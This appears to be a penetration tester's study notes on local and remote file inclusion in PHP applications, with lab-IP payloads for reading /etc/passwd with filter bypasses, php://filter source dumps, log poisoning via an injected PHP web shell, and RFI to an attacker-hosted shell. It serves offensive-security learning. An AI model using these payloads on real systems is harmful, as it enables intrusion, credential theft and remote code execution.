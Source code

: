 ```yaml
---
tags:
  - Enumeration
  - TCP
  - HTTP
  - Concepts
  - Vulnerabilities
---
```

**Remote File Inclusion (RFI):** The file is loaded from a remote server (Best: You can write the code and the server will execute it). In php this is **disabled** by default (**allow_url_include**). 

**Local File Inclusion (LFI):** The sever loads a local file.
# Guides

1. [File Inclusion/Path traversal | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion)
2. [Comprehensive Guide on Local File Inclusion (LFI) - Hacking Articles](https://www.hackingarticles.in/comprehensive-guide-to-local-file-inclusion/)

Check the source of the website and the website fuzzing report for potential parameters which may be vulnerable.

## Automatic Tool

1. [GitHub - kurobeats/fimap: fimap is a little python tool which can find, prepare, audit, exploit and even google automatically for local and remote file inclusion bugs in webapps.](https://github.com/kurobeats/fimap)
# Local File Include

Local File Inclusion (LFI) is a vulnerability that allows an attacker to include files on the server through the web browser. This can lead to sensitive information disclosure, code execution, and other security issues. 

To exploit LFI, an attacker needs to find a vulnerable parameter in the application that includes files. This parameter can be a URL, a file path, or any other input that gets included in the server-side code. 

There are several techniques to exploit LFI, such as directory traversal, null byte injection, and using wrappers like php://input or data://. 

1. Just try the parameter (e.g. `book.php?bookNumber=/etc/password`) and see what happens
2. Supported wrappers, see [PHP: Supported Protocols and Wrappers - Manual](https://secure.php.net/manual/en/wrappers.php)
3. If files can be viewed
	1. If the log file is available, see [[#Log Poisoning]]
	2. Search for credentials, see [[4. Post Exploitation/Valuable Files]]
4. Potentially be able to get the source of the site using the wrappers, see [[#PHP Wrappers]]
5. Vulnerable PHP functions: require, require_once, include, include_once

## PHP Wrappers

### Website Source Retrieval

These return the Base64 of the site, see [[Base64]] to decode.

- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=view`
- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=upload`
- `http://10.10.10.80/?op=php://filter/convert.base64-encode/resource=index`
### Unzip File

[[Web#ZIP Wrapper LFI]]
## LFI Bypass Filtering

See [[Web Application Firewall (WAF)]]

- Null byte: `http://10.10.10.80/?op=../../../etc/passwd%00&secretname=2f4823095649cab523452053417cded1dee9259e`
- Double encoding: `http://10.10.10.80/?op=%252e%252e%252fetc%252fpasswd&secretname=2f4823095649cab523452053417cded1dee9259e`
- Path truncation: `http://10.10.10.80/?op=../../../../[…]../../../../../etc/passwd&secretname=2f4823095649cab523452053417cded1dee9259e`
## LFI Shell

`curl -s 'http://192.168.120.85/classes/phpmailer/class.cs_phpmailer.php?classes_dir=php://filter/read=convert.base64-encode/resource=/etc/php5/apache2/php.ini%00%27%7C base64 -d 2>/dev/null`

## Log Poisoning

Log poisoning is a technique used to manipulate log files on a server by injecting malicious input. This can be used in combination with Local File Inclusion (LFI) vulnerabilities to escalate an attack. 

Effectively if you can view a log file using LFI, you can manipulate the logs by maybe inputting a username which is actually a PHP web shell, then navigating to the log file using LFI, which may run the shell.

### Walkthrough

1. [RCE via LFI Log Poisoning - The Death Potion | by Jerry Shah (Jerry) | Medium](https://shahjerry33.medium.com/rce-via-lfi-log-poisoning-the-death-potion-c0831cebc16d#:~:text=What%20is%20log%20poisoning%20%3F,input%20to%20the%20server%20log)

### Guide

1. Find the log file using LFI
2. Find the technology the log file is for, e.g. FTP
3. Generate a log message using that technology with a malicious entry, e.g. FTP username: `<?php system($_GET[‘commandInjection’]); ?>` 
4. Navigate to the log file using LFI
5. `_/var/log/vsftpd.log&commandInjection=ifconfig

### Log File Locations

1. `/var/log/auth.log`
2. `/var/log/vsftpd.log`

## PHP Session

If the website uses the PHP Session (PHPSESSID) cookie.
[File Inclusion/Path traversal | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/file-inclusion#via-php-sessions)

# Remote File Include

Remote File Inclusion (RFI) is a vulnerability similar to LFI, but instead of including local files, it includes files from a remote server. This can be particularly dangerous as it allows an attacker to execute code on the server by including a malicious file hosted on their own server.

To exploit RFI, an attacker needs to find a vulnerable parameter in the application that includes files from a remote server. This parameter can be a URL pointing to the remote file. 

1. Replace the parameter with the remote IP of your machine, e.g. `/blog/?lang=\\10.10.14.29\\test`
2. Host a Python webserver
3. Point the website at a [[Web|Web Shell]] 

## Guide

1. Point the RFI at a [[3. Exploitation/Obtaining Remote Shells/Tooling/Netcat]] to see the request made first
	1. If a SMB request is made, see [[2. Enumeration/TCP/445. Server Message Block (SMB)/1. Guide#Responder|SMB Responder]] to capture credentials
2. Can be used to check for internal ports which are open, see [[Server-side request forgery (SSRF)]]


